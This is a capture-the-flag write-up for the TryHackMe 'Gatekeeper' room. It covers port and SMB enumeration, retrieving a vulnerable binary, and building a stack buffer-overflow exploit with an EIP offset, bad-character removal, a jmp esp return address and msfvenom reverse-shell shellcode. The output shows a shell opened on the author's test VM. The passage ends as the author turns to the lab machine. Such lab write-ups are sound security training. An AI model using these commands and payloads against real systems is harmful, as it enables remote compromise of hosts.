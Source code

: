 # Gatekeeper [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.208.170
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -p- -Pn $targ3t -oN nmap.scan -vv
```

It appears that open ports for this machine are `135`, `139`, `445` and `3389` and more, full list:

```
Discovered open port 445/tcp on 10.10.208.170
Discovered open port 3389/tcp on 10.10.208.170
Discovered open port 135/tcp on 10.10.208.170
Discovered open port 139/tcp on 10.10.208.170
Discovered open port 49154/tcp on 10.10.208.170
Discovered open port 49165/tcp on 10.10.208.170
Discovered open port 49160/tcp on 10.10.208.170
Discovered open port 49161/tcp on 10.10.208.170
Discovered open port 31337/tcp on 10.10.208.170
Discovered open port 49153/tcp on 10.10.208.170
Discovered open port 49152/tcp on 10.10.208.170
```

Let's perform a script scan on these:

```
nmap -p 135,139,445,3389,49152,49153,31337,49160,49154,49165,49161 --script=vuln $targ3t -oN nmap.vuln.scan -v
```

Interesting results, especially this one:

```
31337/tcp open  Elite
```

Let's enumerate SMB with `nmap`'s scripts:

```
nmap -p 445 --script=smb-* $targ3t -oN nmap.smb.scan -vv
```

Seems like there is an SMB share with a binary `gatekeeper.exe` on it. I think it would be a good guess to say, that `gatekeeper.exe` is a server application we can interact with on port `31337`:

```
| smb-ls: Volume \\10.10.208.170\USERS
| SIZE   TIME                 FILENAME
| <DIR>  2009-07-14T03:20:08  .
| <DIR>  2009-07-14T03:20:08  ..
| <DIR>  2020-05-15T01:57:06  Share
| 13312  2020-05-15T01:19:17  Share\gatekeeper.exe
```

```
smbclient '\\10.10.208.170\USERS' -U guest
```

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Share                               D        0  Thu May 14 21:58:07 2020

                7863807 blocks of size 4096. 3901605 blocks available
smb: \> cd Share
smb: \Share\> ls
  .                                   D        0  Thu May 14 21:58:07 2020
  ..                                  D        0  Thu May 14 21:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 01:27:17 2020

                7863807 blocks of size 4096. 3901605 blocks available
smb: \Share\> get gatekeeper.exe
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (26.7 KiloBytes/sec) (average 26.7 KiloBytes/sec)
```

Now I can use my local Windows VM to reverse engineer this executable for buffer overflows!

I'm going to use `x32dbg` for this one. Ran the `gatekeeper.exe` on a Windows VM and connected to it via kali on:

```
nc 192.168.0.111 31337
```

This gives only a simple prompt which I filled with `A` characters and it overwrote EIP really really fast. So I'll generate a cyclic pattern to simply understand where the offset is:

```
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Reran the debugger and pasted this into the prompt. Then copied the EIP value `39654138` and checked it here:

```
└─$ /usr/bin/msf-pattern_offset -q 39654138
[*] Exact match at offset 146
```

So now that we control the EIP, let's find some jump points. Let's generate a byte array (I borrowed `bytearray.py` from [Brainstorm](../thm_brainstorm/README.md) room I did the other day):

```
python3 bytearray.py "\x00"
```

Also borrowed `exploit.py` from the Brainstorm write-up I mentioned above. I'll adjust it as needed for this machine and paste this bytearray inside the payload variable:

```
offset = 146
overflow = "A" * offset
retn = "B"*4
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""
```

Before sending this buffer over we need to configure the `ERC` and then  generate a bytearray excluding the `\x00` in `x32dbg`:

```
ERC --config SetWorkingDirectory C:\Users\windows\Desktop\
ERC --bytearray -bytes "\x00"
```

Now we can send the buffer:

```
python3 exploit.py
Connected to target.
Sending evil buffer as a message...
Done!
```

Now let's compare these byte by byte using the ESP address  and make note of the bad chars:

```
ERC --compare 0109EEAC C:\Users\user\Desktop\ByteArray_1.bin
```

The bad chars: `\x00\x0a`

Let's generate a shellcode excluding these chars:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.109 LPORT=9822 EXITFUNC=thread -b "\x00\x0a" -f c
```

Let's paste this in the `payload` variable of our script and add 10 NOP chars in each `padding` and `postfix`. But we also need to find a jump point. 

After some manual searching, I found a `jmp esp` call in a `mswsock.dll` file at the address: `6D930813`, which will be rewritten in little endian as `\x13\x08\x93\x6d` and pasted into the `retn` variable of our exploit script:

```
retn = \x13\x08\x93\x6d
```

Hoping it will work, I'll rerun the binary and attack it with the script:

```
listening on [any] 9822 ...
connect to [192.168.0.109] from (UNKNOWN) [192.168.0.111] 50060
Microsoft Windows [Version 10.0.22621.4890]
(c) Microsoft Corporation. All rights reserved.

C:\Users\windows\Desktop\gatekeeper>whoami
whoami
desktop-n9ia851\windows

C:\Users\windows\Desktop\gatekeeper>
```

It returned a shell on my local machine. Now I will try the same thing for the TryHackMe machine:

```

